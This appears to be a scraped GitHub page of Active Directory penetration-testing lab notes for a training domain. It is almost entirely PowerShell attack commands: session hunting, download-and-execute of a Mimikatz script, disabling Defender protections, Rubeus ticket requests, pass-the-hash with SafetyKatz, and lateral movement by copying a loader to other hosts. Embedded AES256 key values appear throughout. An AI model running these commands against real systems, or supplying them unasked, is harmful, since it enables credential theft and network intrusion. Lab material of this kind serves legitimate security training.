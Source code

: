 ***Method 2:***
```powershell

####Find Domain Admin Session Available on machine
Find-DomainUserLocation 
OR
Invoke-UserHunter -CheckAccess

####Checking For Command Execution...
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt


####Loading Mimikatz on Current Machine (dcorp-ciadmin)
iex (iwr http://172.16.100.6/Invoke-Mimi.ps1 -UseBasicParsing)

####PSSeesion into a Variable
$sess = New-PSSession dcorp-mgmt.dollarcorp.moneycorp.local

####Disabling Antivirus to bypass AV Protection
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess

####Calling function from current machine to target machine..
Invoke-Command -ScriptBlock ${function:Invoke-Mimi} -Session $sess


####Generating and Importing ticket using Rubeus...
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```

##### Derivative Local Admin

Machine 1(student = Local Admin) ->Machine 2 (student = Local Admin(hash Extract)) -> Machine 3 (srvadmin local admin)

student = Local Admin on Machine 2 (dcorp-adminsrv)
dcorp-adminsrv = Extracted hash of srvadmin
srvadmin = Local Admin on Machine 3 (dcorp-mgmt)

```powershell
####Extracting app locker policy
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

###Bypass Realtime monitoring
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose

####Transfering Invoke-Mimi.ps1 to dcorp-adminsrv
echo F | xcopy C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'


./Invoke-MimiEx.ps1


#### Performing Pass the Hash
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /run:cmd.exe" "exit"

#### Checking Local Admin Access on Other Machine
Find-PSRemotingLocalAdminAccess

#### Transfering Loader.exe to 'dcorp-mgmt'
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe

<Add Port Forwarding>
```
